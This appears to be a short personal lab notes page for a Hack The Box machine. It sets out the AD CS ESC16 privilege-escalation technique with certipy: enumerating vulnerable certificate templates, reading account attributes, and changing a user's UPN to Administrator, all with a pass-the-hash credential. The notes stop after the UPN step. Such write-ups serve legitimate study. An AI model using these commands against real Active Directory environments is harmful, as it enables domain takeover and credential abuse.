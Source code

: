 
```bash
certipy find -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -stdout -vulnerable
```

![[Pasted image 20251005180905.png]]
[Documentation](https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/)

> Requires a low level account access (creds + GenericWrite) and account with ESC 16 priv capabilities
> 
> Review [Fluffy Machine](https://htb.adot8.com/hack-the-box/windows-boxes/fluffy)

Read low level account attributes
```bash
certipy account -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user p.agila read
```

Change users UPN (UserPrinicipalName) to Administrator
```bash
certipy account -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user winrm_svc -upn Administrator update
```